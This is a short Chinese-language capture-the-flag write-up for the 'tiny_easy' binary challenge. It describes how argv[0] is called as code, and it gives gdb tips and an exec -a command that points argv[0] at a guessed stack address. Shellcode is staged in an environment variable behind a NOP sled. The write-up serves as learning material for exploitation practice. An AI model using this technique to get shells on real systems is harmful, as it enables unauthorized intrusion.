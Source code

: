 剛執行程式就 segmentation fault ( 滿滿的黑人問號 ) <br>
gdb 後發現，這支程式會將 argv[0] 塞到 edx 然後 call 它 <br>

```
小技巧
  gdb ./tiny_easy
  b *0
  r
  b *$eip
  del 1
  r
```

因此，解題思路就清楚了，就是要想辦法讓 argv[0] 等於 shell code 的位址<br>
但 <br>
問題一 <br>
沒有 IO 怎麼寫 shell code ? <br>
答: 寫到環境變數 <br>

問題二<br>
怎麼知道 shell code 位址 <br>
答: 利用 nop-sled <br>


總結: <br>
1. 先到 /tmp 執行 env.sh 將 shell code 寫到環境變數
2. 再執行 exec -a $(python -c 'print "\x96\x2d\x86\xff"')  /home/tiny_easy/tiny_easy & (可能要執行很多次)

note:
1. 執行 shell script 時請用 source , bash 不行 ( 原因請看鳥哥 )
2. \x96\x2d\x86\xff 是隨便找的 ( 用 gdb )，沒有一定
3. exec 要記得放到背景執行, 否則 /bin/bash 會被關閉
4. 成功機率大概 5~10 % 吧 (機率問題)
